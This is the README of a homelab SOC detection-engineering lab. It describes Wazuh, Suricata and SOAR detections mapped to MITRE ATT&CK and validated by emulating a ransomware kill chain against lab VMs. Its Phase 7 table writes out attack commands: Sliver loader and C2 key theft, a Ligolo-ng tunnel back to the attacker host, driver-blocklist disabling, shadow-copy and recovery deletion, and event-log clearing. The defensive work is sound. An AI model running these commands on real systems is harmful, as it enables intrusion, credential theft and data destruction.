

# Homelab MDR — SOC Detection Engineering Lab



---

## Overview

A hands-on lab demonstrating detection engineering with open-source tools: collecting Windows and Linux telemetry into a SIEM, running a network IDS at the firewall, writing custom detection rules, mapping every detection to MITRE ATT&CK, and hardening the monitoring stack itself. Everything is version-controlled, with each build phase documented alongside its design rationale.

The lab is built in phases — infrastructure and visibility first, then detection content, then response automation, then case management and enrichment. Phases 1–7 are implemented and working. Phase 7 — a full-lifecycle intrusion modeled on a real 2026 ransomware operation (The Gentlemen / GentleKiller RaaS) — is emulated stage by stage from edge exploitation through to encryption, with every stage validated attack → detection → SOAR → ticket.

Everything runs locally on a single hypervisor host. All attack simulations target only lab VMs under my control.

---

## Status

| Phase | Scope | State |
| --- | --- | --- |
| 1 — Foundation | VMs, network, Docker, Wazuh stack (Manager + Indexer + Dashboard) | ✅ Implemented |
| 2 — Hardening | UFW, fail2ban, SSH hardening, index retention | ✅ Implemented |
| 3 — Windows telemetry | Sysmon (sysmon-modular), PowerShell Script Block Logging (4104), ASR, Defender → Wazuh agent | ✅ Implemented |
| 4 — Network re-architecture | pfSense in-path gateway, LAN segmentation | ✅ Implemented |
| 4.5 — SIEM self-monitoring | Agent on the SIEM + auditd, tamper detection for the monitoring stack | ✅ Implemented |
| 5 — Network IDS + DNS detection | Suricata on pfSense + Suricata→Wazuh pipeline, DNS tunneling + behavioral C2 beaconing | ✅ Implemented |
| 6-A — SOAR pipeline | Wazuh → n8n integration, high-severity alert triage and routing | ✅ Implemented |
| 6-B — Automated response | Host isolation via pfSense REST API + allowlist + circuit breaker + investigation tickets | ✅ Implemented |
| 6-C — Case management + enrichment | TheHive 5 (BerkeleyDB + Lucene) + Cortex (9 analyzers), ATT&CK-classified tickets, phishing triage pipeline | ✅ Implemented |
| 7 — Adversary emulation (GentleKiller kill-chain) | Full-lifecycle intrusion emulated stage by stage — see sub-phases below | ✅ Implemented |
| ↳ 7-A — Initial Access | Edge exploitation: CVE-2024-55591 (FortiOS auth-bypass) URI signature; nmap + Nuclei recon — Suricata rules | ✅ Implemented |
| ↳ 7-B — Fileless Execution → C2 | In-memory Sliver beacon via PowerShell reflective loader (no disk write); LOLBin outbound + beaconing confirm | ✅ Implemented |
| ↳ 7-C — Persistence | ASEP autostart write, writer-agnostic — fires even when the implant writes via the Registry API, not reg.exe | ✅ Implemented |
| ↳ 7-D — Defense Evasion / BYOVD | Kernel driver load from user-writable paths, security-tooling termination, code-integrity tampering, and the correlation that ties a driver load to a kill | ✅ Implemented |
| ↳ L4 — Resilient detection | The surviving channel: endpoint heartbeat + off-host network liveness, so a silenced agent is told apart from a machine that was switched off | ✅ Implemented |
| ↳ SIEM self-health | Detects the SIEM's own engine dying silently (a bad rule file kills analysisd while the container still reports Up) and recovers it | ✅ Implemented |
| ↳ 7-E — Lateral Movement | SSH key stolen over the Sliver C2 channel → Ligolo-ng tunnel → valid-account login to the SIEM; allowlist detection (100210/100211) + cross-host SOAR correlation, proven end-to-end through the pivot | ✅ Implemented |
| ↳ 7-F — Impact | The objective stage: volume enumeration → recovery-capability destruction (shadow copies, backup catalogue, System Restore, boot recovery) → mass encryption → event-log clearing. Sixteen rules across five techniques, validated by two independent tools | ✅ Implemented |
| 8 — Coverage engine | Atomic Red Team chains, automated detection scoring, live MITRE ATT&CK Navigator layer | ⏳ Roadmap |

---

## Architecture

pfSense sits in-path as the gateway, so all routed traffic passes through it — the natural place for a network IDS. Endpoints report host telemetry to the SIEM; Suricata reports network detections. Detection is layered on purpose: no single sensor sees everything.

| VM | OS | RAM | Role | IP |
| --- | --- | --- | --- | --- |
| `siem` | Ubuntu Server 22.04 | 7 GB | Wazuh Manager + Indexer + Dashboard (Docker Compose) | 10.10.10.10 |
| `win-ep` | Windows 10 | 2 GB | Endpoint: Sysmon + ASR + Wazuh agent | 10.10.10.20 |
| `pfSense` | pfSense 2.7.2 | 2 GB | In-path gateway + Suricata 7.0.8 IDS | 10.10.10.1 |
| Host | Windows + VirtualBox | 16 GB | Hypervisor | 10.10.10.2 |

Network: LAN `10.10.10.0/24`, pfSense in-path (WAN via NAT), default-deny egress.

---

## Detection engineering

Every custom rule is mapped to a MITRE ATT&CK technique, with IDs namespaced by phase. The table below lists **detections I wrote and verified firing** — not planned coverage.

### Custom detections (rules I wrote)

| Technique | Detection | Layer | Rule IDs |
| --- | --- | --- | --- |
| T1046 — Network Service Discovery | Custom Suricata SYN-scan signatures → Wazuh MITRE rules | Network | Suricata 1000001/1000002 → 100300–100304 |
| T1190 — Exploit Public-Facing Application | Fortinet CVE-2024-55591 auth-bypass URI pattern at the edge (HTTP only — TLS hides the URI) | Network | Suricata sid 100350 → 100308 |
| T1048 — Exfiltration Over Alternative Protocol | Suricata long-subdomain DNS heuristic → Wazuh | Network (DNS) | Suricata 1000003 → 100305 |
| T1071.004 — Application Layer Protocol: DNS | Behavioral C2 beaconing (rate-based, per eTLD+1) via custom SIEM-layer analyzer | SIEM (behavioral) | 100306 / 100307 |
| T1059.001 — PowerShell | Script Block Logging (Event 4104) obfuscation patterns | Endpoint | 100100–100102 |
| T1003.001 — LSASS Memory | comsvcs.dll MiniDump detected via **process command line (Sysmon EID 1)** — EID 10 is dropped by event-size limits, so EID 1 is the reliable path | Endpoint | 100311 |
| Credential theft — Mimikatz | Mimikatz signatures in PowerShell 4104 script blocks | Endpoint | 100312 |
| Credential theft — browser stores | Browser credential-store access (esentutl / Login Data) | Endpoint | 100313 |
| T1068 / T1543.003 — BYOVD driver load | Kernel driver loaded from a user-writable path — keys on **path, not signer**, because a validly signed vulnerable driver is the technique, not an exception to it | Endpoint | 100340–100343 |
| T1562.001 — Security tooling terminated | Termination of a resident security service, plus a frequency rule for the mass-kill shape | Endpoint | 100370 / 100371 |
| T1068 + T1562.001 — **BYOVD chain** | Driver load followed by a security-tooling kill on the same host inside 5 minutes — the pair is the finding; correlated in the SOAR layer, not the rule engine | SOAR | n8n correlation node |
| T1562.001 / T1553.006 — Code-integrity tampering | HVCI, vulnerable-driver blocklist, Credential Guard or TestSigning modified — fires one step *earlier* than the driver load | Endpoint | 100380 / 100381 |
| T1562.001 / T1562.008 — **Agent silenced** | Endpoint telemetry stops while the firewall still sees the host issuing DNS — a killed agent, told apart from a powered-off machine | SIEM + Network | 100359–100366 |
| T1562.001 — SIEM engine down | The rule engine itself stops evaluating (bad rule file kills analysisd; container still reports Up) — detected and auto-recovered | SIEM host | 100395–100399 |
| T1562.001 / T1611 / T1610 / T1548.003 / T1098 / T1543.002 / T1562.004 | SIEM self-monitoring (auditd) — tamper detection for the monitoring stack | SIEM host | 100200–100208 |
| T1078 + T1021.004 — **Unauthorized SIEM access** | Successful SSH publickey login to the SIEM from any source outside the admin-jump allowlist — the valid key is not the signal, the *unexpected source* is; CDB `address_match_key` allowlist, detect-only (management plane) | SIEM host | 100210 / 100211 |
| T1078 + T1021.004 — **Lateral-movement chain** | The SIEM login correlated in the SOAR with a recent high-severity alert from the same source host — two orphan tickets become one Critical incident (the "raise attention on the host" pattern); cross-host, so the pivot's real origin is provable | SOAR | n8n correlation node |
| T1082 — System Information Discovery | Volume enumeration (`Win32_Volume`) seen on **two independent channels** — Sysmon EID 1 and PowerShell module logging (EID 4103) — because the same recon reaches the SIEM differently depending on how it was invoked | Endpoint | 100400 / 100408 |
| T1490 — Inhibit System Recovery | Every documented path to destroying recovery, not just the famous one: `vssadmin delete shadows`, `wmic shadowcopy delete`, PowerShell WMI deletion, `wbadmin delete catalog`, `bcdedit` recovery disable, `vssadmin resize shadowstorage`, System Restore registry and scheduled-task disable | Endpoint | 100401 / 100402 / 100409–100415 |
| T1489 — Service Stop | Termination of a security or backup service — the step that frees locked files before encryption | Endpoint | 100403 |
| T1486 — Data Encrypted for Impact | FIM-driven: a **frequency** rule on the modification burst (15 changes in 120s) plus an artifact rule on the ransom note and the encrypted extension — shape and artifact, not file hash | Endpoint (FIM) | 100405–100407 |
| T1070.001 — Clear Windows Event Logs | `wevtutil cl` — anti-forensics, with a ticket playbook that pivots the analyst to the off-host SIEM copy the local wipe cannot reach | Endpoint | 100404 |


### Phase 7 — adversary emulation: attack commands per stage

Each stage is driven by real red-team tooling from the attacker host (ThinkPad, external to the pfSense LAN), then validated **attack → Sysmon/Suricata → Wazuh → SOAR → TheHive**. Commands are representative; encoded payloads are abbreviated.

| Sub-phase | Tool | Attack command (attacker side) | Fires |
| --- | --- | --- | --- |
| 7-A Initial Access | nmap 7.95 | `nmap -sT -Pn 10.10.10.1` (connect-mode scan — no Npcap on the host, so `-sS` is unavailable) | 100301 / 100304 |
| 7-A Initial Access | Nuclei 3.11.0 | `nuclei -u https://10.10.10.1` (full 5106-template scan) | 100303 / 100300 |
| 7-A Initial Access | curl | `curl "http://10.10.10.1/api/v2/cmdb/system/admin?local_access_token=1"` (CVE-2024-55591 auth-bypass URI pattern — HTTP only: the rule matches `http.uri`, which TLS encrypts) | Suricata sid 100350 → Wazuh 100308 |
| 7-B Fileless → C2 | Sliver C2 v1.7.3 | `execute -- powershell.exe -EncodedCommand <base64>` — in-memory reflective loader (`DownloadData` → `VirtualAlloc` → `CreateThread`), no disk write | 100330 / 100331 / 100332 |
| 7-B Fileless → C2 | Sliver C2 v1.7.3 | HTTP-beacon variant staged via a Sliver `website`, pulled to `%TEMP%\svc.exe` and run — an on-disk drop (contrast the fileless loader above). Note: the `website` channel doubled binary downloads until the listener was rebuilt and a cache-busting `?v=<rand>` was added | 92213 — executable dropped in a malware-associated path, level 15 (T1105) |
| 7-C Persistence | Sliver C2 v1.7.3 | `registry write --hive HKCU --type string "Software\Microsoft\Windows\CurrentVersion\Run\<name>" "powershell.exe -WindowStyle Hidden -nop -enc <base64>"` — Registry API, not reg.exe | 100334 / 100336 |
| 7-D BYOVD | sc.exe | `copy <signed driver> C:\Windows\Temp\evilqos.sys` then `sc create EvilQoS type= kernel binPath= \??\C:\Windows\Temp\evilqos.sys` + `sc start` — a Microsoft-signed driver staged in a temp path (the `\??\` prefix is required; a plain `C:\` path fails silently) | 100341 |
| 7-D BYOVD | PowerShell | terminate a resident security process (`Stop-Process -Force`) within 5 min of the driver load | 100370 → BYOVD chain ticket |
| 7-D BYOVD | reg.exe | `reg add "HKLM\SYSTEM\CurrentControlSet\Control\CI\Config" /v VulnerableDriverBlocklistEnable /t REG_DWORD /d 0 /f` — disabling the control that would block the driver | 100380 |
| L4 Resilient | sc.exe | `sc stop WazuhSvc` while the host keeps issuing DNS queries through the gateway | 100366 |
| 7-E Lateral Movement | Sliver C2 v1.7.3 | `download C:\\Users\\vboxuser\\.ssh\\id_ed25519 C:\\Users\\ThinkPad\\stolen_key` — steal the planted SSH key over the encrypted C2 channel from inside the live beacon (no file handle on disk, no SSH session). Writes CRLF line endings — convert to LF before the key will load (T1552.004) | — theft is silent by design: the agent's Security channel filters EID 4663, so the SACL read is never shipped. Detection lands on the *use* of the key (100210), not the theft |
| 7-E Lateral Movement | Ligolo-ng 0.8.2 | proxy on attacker (Administrator + `wintun.dll` beside the exe): `.\proxy.exe -selfcert`; agent on victim via the beacon: `agent.exe -connect 10.10.10.2:11601 -ignore-cert -retry`; then `session` → `tunnel_start --tun ligolo` and `New-NetRoute -DestinationPrefix 10.10.10.0/24 -InterfaceIndex <ligolo> -RouteMetric 1` (T1572) | — tunnelling: proven by the SIEM logging the SSH source as **win-ep (10.10.10.20)**, not the attacker |
| 7-E Lateral Movement | ssh (OpenSSH 9.5) **over the Ligolo tunnel** | credential spray to trip detection: loop `ssh -o PreferredAuthentications=password -o PubkeyAuthentication=no svc-backup@10.10.10.10` — carried by the tunnel above, so it exits from win-ep, not the attacker (T1110) | **5763** — sshd brute-force ticket, level 10, source correctly attributed to win-ep |
| 7-E Lateral Movement | Sliver C2 `download` + ssh (OpenSSH 9.5) **over the Ligolo tunnel** | steal the SSH key over the encrypted C2 channel (`download ...id_ed25519`, CRLF→LF fix), then authenticate through the tunnel: `ssh -i stolen_key svc-backup@10.10.10.10` — valid-account access; the SIEM sees the source as win-ep, not the attacker (T1552.004 + T1021.004 + T1078) | **100210** (L12) → SOAR cross-host correlation → **Critical** lateral-movement ticket; the earlier "gap" was rule 5715 firing at level 3 (a classification gap, not a collection one) |

| 7-F Impact | PowerShell (controlled encryptor) | staged sequence on a throwaway directory, each step spawned as its own process so Sysmon records the real command line: `Get-WmiObject Win32_Volume` → `vssadmin delete shadows /all /quiet` → `wmic shadowcopy delete` → `net stop VSS` → XOR-rewrite + rename to `.umc16h` + `README-GENTLEMEN.txt` → `wevtutil cl Application` (T1082/T1490/T1489/T1486/T1070.001) | 100400 / 100401 / 100402 / 100403 / 100405 / 100406 / 100407 / 100408 → **Critical** impact ticket |
| 7-F Impact | Microsoft Defender (defender-side result) | with real-time protection left ON for the first run, Defender terminated the PowerShell process mid-encryption on **behaviour**, not signature — `Behavior:Win32/GenShadowCopy!rsm`, severity 5 | — L1 prevention proven: the design doc's "enable, don't build" layer stopping the chain in practice |
| 7-F Impact | Atomic Red Team (T1490 series) | independent second tool, run with real-time protection disabled to measure detection rather than prevention: `wbadmin delete catalog`, `bcdedit /set {default} recoveryenabled no`, `Win32_Shadowcopy` deletion via PowerShell WMI, `schtasks /Change /TN \Microsoft\Windows\SystemRestore\SR /disable`, `SystemRestore` registry `DisableSR`, `vssadmin resize shadowstorage` | 100409 / 100410 / 100412 / 100413 / 100414 / 100415 — **seven recovery-destruction paths the first pass had missed** |

**Why the persistence command is the differentiator:** Sliver's `registry write` uses the Windows Registry API from inside the implant, so Sysmon EID 13 records `image=powershell.exe`, not `reg.exe`. Wazuh's built-in Run-key rules are all bound to `image=reg.exe` and go silent; the custom rule inherits from `92300`/`92302` and fires on *what* is persisted, catching the write regardless of writer.

**Why the impact stage was run twice, with two different tools:** the controlled encryptor proves the *sequence* — enumerate, destroy recovery, encrypt, clear logs — but it only exercises the paths its author already thought of. Replaying the same technique through Atomic Red Team's independent implementations invoked six binaries the first pass never touched, and every one of them went undetected. The rules that closed those gaps (100409–100415) exist only because a second tool was used; a detection validated by the tool that motivated it is validated against itself.

### The DNS behavioral C2 detection (Phase 5)

Signature matching is the weakest tier of the Pyramid of Pain — rewrite the tool and the signature is dead. Rather than fingerprint a C2 tool, this detection targets an **intrinsic property of the C2 channel**: beaconing repetition. A rate-based analyzer groups DNS queries by `(src_ip, eTLD+1)` over a rolling window and flags parents whose query volume is anomalous, with an allowlist for legitimate high-volume domains.

```
Suricata eve.json (pfSense)
  → edge filter: event_type=dns, type=query   (answers dropped at the sensor)
  → dns-pull.sh — byte-offset batch pull via cron (no persistent tail, no collision with the alert collector)
  → c2-detect.py — rate-based analyzer, eTLD+1 grouping, allowlist → SOAR-ready JSON alert
  → /var/log/dns-analyzer/alerts.json  (Docker bind-mount into Wazuh)
  → Wazuh JSON decoder → rules 100306/100307 → MITRE T1071.004
```

The analyzer lives in the SIEM layer, not the IDS — clean separation of concerns: Suricata reads the wire, the analyzer reasons about behavior, Wazuh correlates and alerts. Alerts are emitted as SOAR-ready JSON (`parent_domain` + `src_ip` + `query_count`) so Phase 6 can enrich and act on them directly.

### The Suricata → Wazuh alert pipeline (Phase 5)

```
Suricata eve.json (pfSense)
  → edge filter: event_type=alert only (protocol logs dropped at the sensor)
  → SSH stream, siem PULLs via a systemd service (Restart=always)
  → /var/log/suricata-pfsense/eve-alerts.json  (Docker bind-mount into Wazuh)
  → Wazuh JSON decoder → custom rules 100300–100305 → MITRE
```

The collector runs as a systemd service on the SIEM (`Restart=always`), so it self-recovers from dropped connections, host suspend, or crashes — no manual watchdog.

### Extended by community rulesets (enabled, not authored here)

Broad coverage layered on top of the custom rules, so the lab isn't blind between custom detections:

- **Sysmon-modular + Wazuh community (host-side):** LOLBAS abuse (certutil / mshta / wmic and similar living-off-the-land binaries), lateral movement (WinRM / Invoke-Command / PsExec patterns), scheduled tasks, image loads, file drops, LSASS *access* events.
- **ET Open + Snort GPLv2 Community (network-side, Suricata):** broad network signature coverage for scanning, exploit, and malware traffic patterns.

---

### SOAR pipeline (Phase 6-A)

Detection is wired to orchestration: Wazuh forwards every alert at level ≥ 10 to an n8n workflow that triages and tags it for response. The forwarder is a Wazuh `integration` script; the level filter keeps low-severity noise out of the automation while letting *any* high-severity detection through — so new detections reach the SOAR layer automatically, without per-rule wiring.

```
Wazuh alert (level ≥ 10)
  → integratord runs a custom integration script
  → HTTP POST → n8n production webhook
  → IF (level ≥ 10) → HIGH_PRIORITY (enrich + block, wired in 6-B) / LOW_PRIORITY (logged)
```

n8n runs as its own container (separate compose, isolated from the Wazuh stack, bound to the LAN interface only). The pipeline was validated end to end with **real attacks** against the endpoint — DNS C2 beaconing (T1071.004), Mimikatz (T1003), an LSASS dump via `comsvcs.dll` MiniDump (T1003.001), and browser credential theft via `esentutl /vss` on Chrome and Edge (T1555.003) — all four fired in Wazuh and reached n8n. The SOAR layer is threat-category-agnostic, not tied to any single detection.

Automated *containment* is deliberately deferred to Phase 6-B: blocking runs through the SOAR path with enrichment (Cortex) and safety controls (block TTL, RFC1918 allowlist, circuit breaker) rather than blind inline blocking on a single gateway.

### Automated containment + investigation tickets (Phase 6-B)

The SOAR layer now closes the loop from detection to response. When a high-severity alert reaches n8n, the workflow extracts the source host, runs it past two safety gates, and — if it passes — isolates the host through the pfSense REST API:

```
alert (level >= 10) -> extract src_ip
  -> SAFETY: infrastructure allowlist (gateway / SIEM / analyst host are never blockable)
           + circuit breaker (halt if too many blocks in a short window)
  -> pfSense REST API: add IP to the soar_blocklist alias -> apply
  -> generate a structured investigation ticket
```

The allowlist and circuit breaker are enforced both as visible n8n nodes and in a standalone script, so a bad or spoofed alert can never take down the lab's own infrastructure — verified by tests that deliberately tried to block the gateway and the SIEM (both refused), and a burst that tripped the circuit breaker. The pfSense API key is held as an n8n credential, never written into the exported workflow. The firewall block rule stays disabled (dry-run) by default and is enabled only for live containment tests.

Every alert also produces a professional, TheHive-ready **investigation ticket**: ticket key, priority with an SLA, TLP, MITRE technique, detection details, TheHive-style observables, an event timeline, the automated action taken, enrichment placeholders (for Cortex — VirusTotal / AbuseIPDB), a seven-step L1 investigation checklist, and a disposition field (True Positive / False Positive / Escalated). This gives an analyst a realistic case to triage, mirroring what lands in a real SOC queue.

The whole pipeline was validated end to end with a **real multi-stage APT attack chain** on the endpoint (discovery -> credential access -> persistence -> defense evasion -> C2): 15 detection rules fired across 13 MITRE techniques and 6 tactics, and the DNS C2 detection automatically isolated the endpoint on the firewall — no manual step. Automated containment via the firewall's native API is exactly the pattern an enterprise would implement (with PAN-OS / FortiOS APIs in place of the open-source package).

## Key design decisions

- **Detection before response.** Phase 5 is IDS-only by design; automated blocking is reserved for the SOAR phase with safety controls (block TTL, RFC1918 allowlist, circuit breaker).
- **IDS, not inline IPS (for now).** Inline blocking is a single point of failure on one gateway; start in detection, baseline, then promote high-confidence signatures. Blocking will run through the SOAR path — auditable and reversible.
- **Behavioral over signature for C2.** Signatures are brittle; rate-based beaconing targets a channel property that's costly to evade without breaking the C2.
- **North-south vs east-west.** Suricata sees routed traffic only; same-subnet lateral movement is covered host-side by Wazuh + Sysmon. Layered visibility, not one sensor.
- **DNS is the realistic C2 channel here.** Endpoints resolve through pfSense, so every DNS query is routed and Suricata-visible — unlike same-subnet traffic, which is L2-switched and never crosses the gateway.
- **Edge filtering.** Only actionable data is shipped to the SIEM; raw protocol logs stay at the sensor. Keeps the SIEM focused and storage bounded.
- **Monitor the monitor.** The SIEM is a high-value target, so tampering with the monitoring stack itself is detected (Phase 4.5).

Full rationale in [`docs/`](docs/).

---

## Repository layout

```
homelab-mdr/
├── README.md
├── homelab-mdr-session-log.md          # phase-by-phase build journal
├── detection/
│   ├── wazuh-rules/                     # custom Wazuh XML rules (numeric prefix = load order)
│   │   ├── 9985-impact.xml               # 100400–100415 (impact: recovery destruction, encryption, log clearing)
│   │   ├── 9986-lateral-movement.xml    # 100210–100211 (unauthorized SIEM login, allowlist)
│   │   ├── 9987-siem-health.xml         # 100395–100399 (engine availability)
│   │   ├── 9988-ci-tampering.xml        # 100380/100381 (HVCI, blocklist, PPL)
│   │   ├── 9989-edr-killer.xml          # 100370/100371 (security tooling killed)
│   │   ├── 9990-secwatch.xml            # 100359–100366 (L4 surviving channel)
│   │   ├── 9991-byovd-detection.xml     # 100340–100343 (driver load)
│   │   ├── 9992-fp-suppression.xml      # 100390 (surgical FP tuning)
│   │   ├── 9993-persistence-detection.xml # 100333–100338 (ASEP, writer-agnostic)
│   │   ├── 9994-fileless-c2-detection.xml # 100330–100332 (in-memory loader, beaconing)
│   │   ├── 9995-credential-access.xml   # 100310–100313 (LSASS / Mimikatz / stealer)
│   │   ├── 9996-endpoint-discovery.xml  # 100320 (scanner cmdline)
│   │   ├── 9997-suricata-mitre.xml      # 100300–100308 (Suricata + DNS + edge CVE)
│   │   ├── 9998-siem-self-monitoring.xml# 100200–100208 (SIEM tampering)
│   │   ├── 9999-windows-powershell.xml  # 100100–100102 (PowerShell 4104)
│   │   └── lists/siem-ssh-allowlist     # CDB allowlist — admin-jump sources (100211 lookup)
│   ├── suricata-rules/                  # custom Suricata signatures
│   │   ├── custom.rules                 # sid 1000001/1000002 (T1046), 1000003 (T1048), 100350 (CVE-2024-55591)
│   │   └── disablesid.conf              # sid 26470 (broken community rule)
│   ├── secwatch/                        # L4 — the surviving channel
│   │   ├── agent/                       # endpoint heartbeat + shutdown announce
│   │   ├── siem/                        # watchdog + systemd timer
│   │   └── README.md                    # design, limits, verified behaviour
│   ├── siem-health/                     # detects the engine dying silently
│   ├── sysmon/                          # DriverLoad override + rationale
│   ├── dns-analyzer/                    # behavioral C2 analyzer
│   │   └── c2-detect.py                 # rate-based DNS beaconing detector
│   └── pipeline/                        # collectors
│       ├── suricata-collector.sh        # alert PULL collector (systemd)
│       ├── suricata-collector.service   # systemd unit (Restart=always)
│       ├── dns-pull.sh                  # DNS query batch pull (cron)
│       ├── dns-pull.cron                # 1-min schedule
│       └── dns-analyzer.logrotate       # stream + alert retention
├── soar/                                # Phase 6 SOAR (triage + containment)
│   ├── n8n/
│   │   ├── docker-compose.yml           # n8n container (isolated)
│   │   ├── wazuh-soar-triage.json       # alert → enrich → contain → classified ticket
│   │   └── phishing-triage-cortex-enrichment.json  # .eml → enrich → signal scoring
│   ├── cortex/                          # Cortex + Elasticsearch (secrets redacted)
│   │   ├── docker-compose.yml
│   │   ├── application.conf             # pinned secret key (HOCON mount)
│   │   └── README.md                    # analyzer setup + org/user bootstrap
│   ├── thehive/                         # TheHive 5 (local mode: bdb + Lucene)
│   │   ├── docker-compose.yml
│   │   └── application.conf
│   ├── wazuh-integration/
│   │   ├── custom-n8n                   # Wazuh → n8n forwarder script
│   │   └── ossec-integration-block.xml  # <integration> block (level>=10)
│   └── scripts/                         # 6-B containment
│       ├── soar-block.py                # host-isolation blocker (allowlist + circuit breaker)
│       └── cron-dns-pipeline            # cron: pull && analyze, every minute
└── docs/
    ├── architecture.svg / architecture.png
    └── evidence/                        # screenshots per phase
```

---

## Roadmap

- **Phase 6 — SOAR (implemented):** 6-A wired Wazuh → n8n triage; 6-B added automated host isolation via the pfSense REST API — gated by an infrastructure allowlist and a circuit breaker — plus professional investigation tickets, validated with a real multi-stage attack chain; 6-C deployed **TheHive 5** (BerkeleyDB + Lucene — no Cassandra, RAM-conscious) as the case-management front end where both ticket streams land, and **Cortex** (9 analyzers: VirusTotal / AbuseIPDB / URLhaus / Pulsedive / GoogleDNS / EmailRep / EmlParser / Abuse_Finder / Urlscan) for enrichment. The ticket builder is an **ATT&CK classifier** — it derives priority, investigation tasks and playbook from the alert's tactic. An **automated phishing-triage pipeline** (n8n → EmlParser → routed Cortex analyzers → reputation-independent signal scoring → TheHive case) mirrors the #1 ticket type an L1 analyst triages.
  - *Planned enhancements:* block-TTL auto-unblock (read-modify-write on the alias), DNS-level domain/subdomain blocking (Unbound / pfBlockerNG NXDOMAIN, post-enrichment), and a reputation-independent signal scorer for network tickets (mirroring the phishing scorer).
- **Phase 7 — Adversary emulation (GentleKiller kill-chain) — implemented:** rather than a single ransomware payload, Phase 7 reconstructs the *full intrusion lifecycle* of The Gentlemen / GentleKiller — the #2 RaaS of 2026 (ESET, June 2026) — as an eight-stage attack chain, each stage emulated with professional tooling and validated attack → detection → SOAR → TheHive. **7-A** initial access (CVE-2024-55591 auth-bypass at the edge), **7-B** fileless in-memory execution → C2, **7-C** persistence (writer-agnostic ASEP), **7-D** BYOVD EDR-killer with the driver-load↔kill **correlation**, **7-E** lateral movement (SSH key stolen over the Sliver C2 channel → Ligolo-ng tunnel → valid-account login to the SIEM, correlated cross-host into one Critical ticket), and **7-F** impact — volume enumeration, recovery-capability destruction, mass encryption and event-log clearing. Two original layers the real victims lacked round it out: **L4**, a resilient "surviving channel" that tells a killed agent apart from a powered-off host (endpoint-silence + off-host network-alive), and **L0**, a SIEM self-health monitor that catches the detection engine dying silently. The design centers on *behavioral* detection — the strongest signal against an actor that swaps eight BYOVD driver variants and writes its tooling in Go. Tooling: **Sliver C2** (in-memory implant, C2, key theft over the encrypted channel), **Ligolo-ng** (userland-TUN tunnelling — the pivot that let the external attacker reach the SIEM through the compromised endpoint), **Nuclei** (edge probing), a **controlled PowerShell encryptor** on a throwaway directory for the impact sequence, and **Atomic Red Team** (T1490 series) as an independent second tool — running the same technique through different binaries exposed seven recovery-destruction paths the first pass had missed. Full design: `docs/phase7-attack-scenario.md`.

- **Phase 8 — Detection coverage engine (planned):** turn the lab from "a lab with detections" into a measurable platform. Three pillars: full **Atomic Red Team attack chains** (recon → LSASS → Mimikatz → browser stealer → DNS exfil, not isolated single tests); an **automated scorer** that runs each chain, queries Wazuh, and reports which techniques fired, which were missed, and the detection latency; and a **live MITRE ATT&CK Navigator layer** (green = proven, red = gap) auto-generated and committed to the repo. Phase 7 (GentleKiller) is the first full chain the engine will measure. Demo layer: **CALDERA** (automated ATT&CK-mapped execution) + **VECTR** (purple-team heatmap and report) + **DeTT&CT** (systematic visibility-gap analysis).
- **Near-term detection extensions:** Shannon entropy and unique-subdomain cardinality on the DNS analyzer, JA3-based C2 hunting, index retention policy, and promoting high-confidence signatures to inline IPS via the SOAR path.

---

## License

MIT — see [`LICENSE`](LICENSE).
